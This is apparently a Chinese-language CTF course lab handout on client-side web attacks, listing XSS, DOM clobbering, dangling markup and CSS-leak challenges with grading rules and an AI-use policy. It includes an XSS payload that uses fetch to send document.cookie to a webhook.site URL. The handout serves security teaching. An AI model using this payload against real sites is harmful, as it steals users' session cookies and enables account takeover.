

# Web Lab 2：用户侧攻击

## 那么，对于一个CTF题，XSS要干什么……

在课上，我们主要涉及了各种攻击方式的原理。让页面`alert("XSS")`对于PoC来说足够了，但是对于一道CTF题来说还不够，通常此类题目会设计一个不`HTTPOnly`的Cookie，值为flag，如果你能拿到这个cookie（`document.cookie`）就可以证明你已经可以在页面上执行任意代码。

```html
<script>
    fetch(`https://webhook.site/2b055f93-1ae0-4c3e-bde1-ec6a7f6b39a7/${document.cookie}`)
</script>
```

这是一个常见的写法，从实现 XSS 拓展到了窃取 flag 。

另外有一个常见误区：

假定WebsocketReflectorX将平台的wss映射到了`127.0.0.1:7777`，那么你不应该让bot访问`http://127.0.0.1:7777/some-path-with-XSS-vuln/?content=some-payload`，它访问不到你自己电脑上的端口；穿透出去也不行。

通常来说，如果用户侧攻击的题目给了附件，那你可以从附件中找到path，一般是`http://localhost:<PORT>/...`，有的题目可能会写`http://web:3000/...`之类；如果没给附件，那题目描述或者页面中可能会讲host是什么。

  
*不都是从那个时候过来的嘛*

### ……我没有公网服务器

没有公网服务器确实会给用户侧攻击的体验带来一点麻烦，但也还是有很多解决方案的：

- 有很多平台提供了记录请求的服务，例如[`webhook.site`](https://webhook.site/), [`dnslog`](https://bing.com/search?q=dnslog), [`requestrepo`](https://www.requestrepo.com/requests)等等。
- 我们的ZJU::CTF平台已经修好了！只需要在校网下自己的电脑上搭一个服务器（`npx serve`或者`python -m http.server`之类），用自己的IP地址（`10.x.x.x`）即可。题目环境已可以访问`10.0.0.0/8`。
- 可以了解一下“内网穿透”。~~虽然我也配了但是我还是嫌内网穿透很繁琐，总之还是推荐前两种方案~~

## 做不出来咋办……

在解题过程中遇到困难，可以向AI提问，也可以向助教提问；如果无法理解AI的解释也可以向助教提问——总之不要有心理负担，大胆的问（以及，考虑到[知识诅咒](https://en.wikipedia.org/wiki/Curse_of_knowledge)，如果问的人多的话，我们可能会放出hint来降低难度）。

我个人认为CTF101的目的是让所有同学感受到Hacking的乐趣，**不是为了筛选人**，也不需要强制让多少百分比的人拿不到满绩。

但是请不要看都不看，将AI生成的flag交给平台、AI生成的报告交给我。实验报告必须体现出人类的工作内容（工作量原则）：例如你自己的探索和试错过程，或者你输入的 AI 提示词，或者你对这道题目的感想/探索/思考/拓展，等等，非 AI 生成的内容都可以视为人类的工作内容。如果使用 AI 得到解法，需要理解其中的关键步骤，并能够解释自己提交的命令和代码。如果实验报告中人类的成分过少，将由助教进行线上验收，并可能会被扣除相应的实验分数。

## 实验分数构成

- 第一组: 60分
- 第二组：30分
- bonus：50分
- 签到和反馈：15分 

上述4个模块，每个模块具有独立上限，模块得分不溢出此上限；总计上限为115分（即，至多溢出15分到其它实验）；

每道题目即使未能解出最终结果也会有部分分。

------

## 第一组

### A. XSS Labs (15分)

[[lec 2 课上演示] XSS Labs](https://ctf.zjusec.net/games/7/challenges#366)

### B. Webpack DOMClobber (15分)

尝试使用DOM Clobber的方式解决[[lec 2] My favourite profile](https://ctf.zjusec.net/games/7/challenges#387)

### C. Dangling Markup Lab (15分)

- [[lec 2] Dangling Markup Lab](https://ctf.zjusec.net/games/7/challenges#388)
- Dangling Markup 的利用要求其实是比较苛刻的。尝试自己在本地进行一些实验验证这一点，比如可以展示什么情况下Dangling Markup会被默认拦截，从浏览器的哪个版本开始有了这样的安全限制，等等。

完成上述两个任务可获得15分

### D. Gradient (20分)

- [[lec 2] Gradient](https://ctf.zjusec.net/games/7/challenges#389)

### E. Notebook Viewer (20分)

- [[lec 2] Notebook Viewer](https://ctf.zjusec.net/games/7/challenges#390)

## 第二组

### F. also jquery（10分）

- [[lec 2] also jquery](https://ctf.zjusec.net/games/7/challenges#374)

### G. As I've written（15分）

- [[lec 2 课上演示] As I've written](https://ctf.zjusec.net/games/7/challenges#375)

想当年，这道题只有交大一位同学解出来了……但是我们课上拆解过了，而且还有writeup，所以应该还好

### H. ColorNote（25分）


- [[lec 2] ColorNote](https://ctf.zjusec.net/games/7/challenges#391)

- 用Dangling Markup解出本题可获得15分
  - 如果有换行的话，浏览器会忽略这个tag…有什么办法绕过吗？
    - 课上讲了`data:`伪协议，其中有没有什么有意思的东西可以用上？
- 再用CSS Leak解出本题可获得额外10分

## Bonus题

### I. As I've written REVENGE（20分）

- [[lec 2] As I've written REVENGE](https://ctf.zjusec.net/games/7/challenges#376)

而这，就是那位交大同学的非预期解

### 出一道用户侧攻击有关的 Web 题（50分）

参考xsleaks.dev, hacktricks等资料，找找自己感兴趣的点，命制一道Web题。

- 你需要提交题目的attachment、容器文件，一个README题目描述文件，以及Writeup；
- 在本报告中，你可以讲一讲自己命制这道题的心路历程，比如找到了那些题目做参考/找到了什么知识点/觉得自己题目中什么地方出的最有意思；
- 我们主要会根据题目的完整度以及报告中体现的工作量来评分，题目的新颖性、难度等等也会纳入考虑；换句话说，哪怕你未能写出一道让自己满意的题目，只要报告中体现出了自己探索的过程，也可以获得不错的分数。

## 课上签到（5分）

*到课本身就是工作量的体现 难道不是吗*

## 反馈（5~10分bonus）

谈谈你的感受吧！无论是关于本次课程，关于助教，关于作业，无论是感想、意见还是建议，欢迎畅所欲言，您的反馈能帮助我们更好的改进课程！